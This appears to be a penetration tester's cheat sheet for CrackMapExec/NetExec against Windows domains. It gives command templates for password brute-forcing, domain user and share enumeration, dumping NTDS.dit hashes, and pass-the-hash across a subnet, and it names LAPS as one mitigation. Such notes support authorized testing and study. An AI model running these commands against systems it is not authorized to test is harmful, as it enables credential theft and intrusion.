 >[!important] NetExec
>CrackMapExec is deprecated and is no longer being updated or maintained. NetExec, on the other hand, is the exact same toolset, but with a more modular and maintainable design. It's constantly being updated, as well. Thus, ***always*** use NetExec over CrackMapExec if you have a choice.

CrackMapExec (or the new fork NetExec) is a very powerful tool for Windows domain enumeration and bruteforcing, with lots of options to play with. 

## Bruteforcing (Simple)
```shell
crackmapexec <protocol> <IP> -u <username or userlist> -p <password or passwordlist> # Bruteforce a protocol with CME
```
## SMB Mode
```shell
crackmapexec smb 172.16.5.5 --users
# Enumerate number of bad password attempts
crackmapexec smb <DC_IP> -u <username> -p <password> --users # Enumerate Domain Users #withcreds
crackmapexec smb <DC_IP> -u <username> -p <password> --groups # Enumerate Domain Groups
crackmapexec smb <DC_IP> -u <username> -p <password> --loggedon-users # Enumerate Domain Users who are currently logged on
crackmapexec smb <DC_IP> -u <username> -p <password> --shares # Enumerate Domain shares
crackmapexec smb <DC_IP> -u <username> -p <password> -M spider_plus --share <share name> # Spider SMB share for all readable files
crackmapexec smb <DC_IP> -u <username> -p <password> --ntds # Dump NTDS.dit and print all domain hashes
```

## If you have an NT hash of a local admin:

```shell-session
# Trying once on each machine (--local-auth) to see if the administrators hash is used elsewhere. Grep for sucessful logins.

sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

==The above command is noisy!== Do not use if you are trying to be stealthy. One way to mitigate this is to use Local Administrator Password Solution (LAPS) to have AD enforce a unique password on each host.
# Resources
https://github.com/Pennyw0rth/NetExec

https://www.netexec.wiki/
- The definitive documentation for netexec. 